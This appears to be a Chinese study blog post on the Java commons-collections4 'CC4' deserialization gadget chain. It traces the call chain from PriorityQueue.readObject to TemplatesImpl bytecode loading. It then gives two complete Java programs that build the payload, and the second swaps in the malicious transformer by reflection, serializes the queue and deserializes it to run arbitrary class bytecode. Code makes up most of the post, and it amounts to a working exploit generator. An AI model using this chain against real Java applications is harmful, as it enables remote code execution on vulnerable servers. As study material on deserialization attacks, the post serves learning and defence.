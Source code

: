 ```yaml
---
layout: post
title: CC链-CC4
subtitle: Let's start learning!
tags: [CC链]
author: Sine
---
```


# CC4

CC4是针对commons-collections4版本的攻击链

PriorityQueue.readObject()->PriorityQueue.heapify()->PriorityQueue.siftDown()->PriorityQueue.siftDownUsingComparator()->TransformingComparator.compare()->ChainedTransformer.transform()->ConstantTransformer.transform()->InstantiateTransformer.transform()->TrAXFilter.TrAXFilter()->TemplatesImpl.newTransformer()->TemplatesImpl.getTransletInstance()->TemplatesImpl.defineTransletClasses()->ClassLoader.defineClass()->newInstance()

我们直接来看TransformingComparator中的compare方法调用了transform方法

![image-20250213213529995](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213530024.png)

this.transform在构造函数里被赋值

![image-20250213213634040](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213634095.png)

TransformingComparator.compare在PriorityQueue.siftDownUsingComparator中被调用

![image-20250213213710644](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213710678.png)

comparator在构造函数里被赋值，this.comparator = comparator

![image-20250218203046661](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218203046812.png)

siftDownUsingComparator被siftDown调用

![image-20250213213811111](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213811146.png)

siftDown被heapify调用

![image-20250213213844021](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213844085.png)

heapify在本类的readObject方法中调用

![image-20250213213906874](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213906955.png)

前半部分可采用CC3，初始化TransformingComparator，传入chainedTransformer赋值给this.transform

再把TransformingComparator传入PriorityQueue进行初始化，PriorityQueue的成员变量this.comparator即为TransformingComparator，再调用TransformingComparator.compare方法

然后在compare方法里会调用chainedTransformer.transform方法

在heapify中，要满足i = (size >>> 1) - 1>= 0才能调用siftDown方法，所以要使size>2

![image-20250213220033214](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213220033254.png)

所以要往priorityQueue中add至少两个对象

此时，还未进行序列化反序列化，但也能够执行

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;


public class CC4Test {

    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException {

        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"123");
        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte [] code = Files.readAllBytes(Paths.get("/Users/sine/Desktop/code/Java/untitled1/target/classes/org/example/Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates,codes);
        Field _tfactoryField = templatesClass.getDeclaredField("_tfactory");
        _tfactoryField.setAccessible(true);
        _tfactoryField.set(templates,new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
    }

}
```

![image-20250218212120658](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218212120705.png)

priorityQueue.add方法也会调用到siftUpUsingComparator()->compare，所以可以先在transformingComparator初始化时传入一个无用的对象赋值给this.transform，等到add结束后，再修改transformingComparator成员变量transform的值

```JAVA
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;


public class CC4Test {

    public static void main(String[] args) throws Exception {

        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "123");
        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("/Users/sine/Desktop/code/Java/untitled1/target/classes/org/example/Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field _tfactoryField = templatesClass.getDeclaredField("_tfactory");
        _tfactoryField.setAccessible(true);
        _tfactoryField.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Class transformingComparatorClass = transformingComparator.getClass();
        Field transformField = transformingComparatorClass.getDeclaredField("transformer");
        transformField.setAccessible(true);
        transformField.set(transformingComparator, chainedTransformer);

        serialize(priorityQueue);
        unserialize("ser.bin");
    }
        public static void serialize(Object obj) throws Exception {
            ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
            oos.writeObject(obj);
        }

        public static Object unserialize(String Filename) throws Exception {
            ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
            Object obj = ois.readObject();
            return obj;
        }


    }
```

![image-20250218212155226](/Users/sine/Library/Application Support/typora-user-images/image-20250218212155226.png)

# 
